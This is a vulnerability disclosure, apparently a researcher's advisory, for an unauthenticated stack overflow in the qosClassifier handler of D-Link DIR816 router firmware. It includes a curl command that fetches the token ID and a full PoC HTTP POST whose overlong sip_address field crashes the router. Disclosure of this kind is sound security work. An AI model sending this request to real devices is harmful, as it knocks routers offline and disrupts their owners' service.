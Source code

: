 # D-Link Vulnerability

Vendor:D-Link

Product:DIR816

Version:1.10CNB05

Type:Stack Overflow

Author:Jiaqian Peng

Mail:pengjiaqian@iie.ac.cn

Institution:Institute of Information Engineering,Chinese Academy of Sciences(IIE, CAS)



## Vulnerability description

We found an stack overflow vulnerability in D-Link router with firmware which was released recently, allows remote attackers to crash the server.（without authentication）

Gets the token ID.

```
curl http://192.168.1.1/dir_login.asp | grep tokenid
```

**Stack Overflow**

In `goahead` binary:

In the router's `qosClassifier` function, `dip_address、sip_address` is directly passed by the attacker, If this part of the data is too long, it will cause the stack overflow, so we can control the `dip_address、sip_address` to execute arbitrary code.

As you can see here, the input has not been checked. The parameter `dip_address、sip_address` is directly copy to a local variable placed on the stack, which overrides the return address of the function, causing buffer overflow.

<div  align="center"><img src="./images/1.png" style="zoom:60%;" /></div>

<div  align="center"><img src="./images/2.png" style="zoom:60%;" /></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.



## PoC

We set `sip_address` as **aaaaa......,** , and the router will crash, such as:

```http
POST /goform/qosClassifier HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 448
Origin: http://192.168.1.1
Connection: close
Referer: http://192.168.1.1/d_wizard_step1_start.asp
Cookie: curShow=
Upgrade-Insecure-Requests: 1

dir=Download&af_index=1&dp_index=1&comment=pjqwudi&mac_address=9C:2D:CD:B1:73:E5&dip_address=192.168.2.1&sip_address=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&pktlenfrom=1&pktlento=1&protocol=ICMP&dFromPort=1&dToPort=1&sFromPort=1&sToPort=1&layer7=1&dscp=1&remark_dscp=1&tokenid=1189641421
```



## Result

The target router crashes and cannot provide services correctly and persistently.

<div  align="center"><img src="./images/3.png" style="zoom:60%;" /></div>
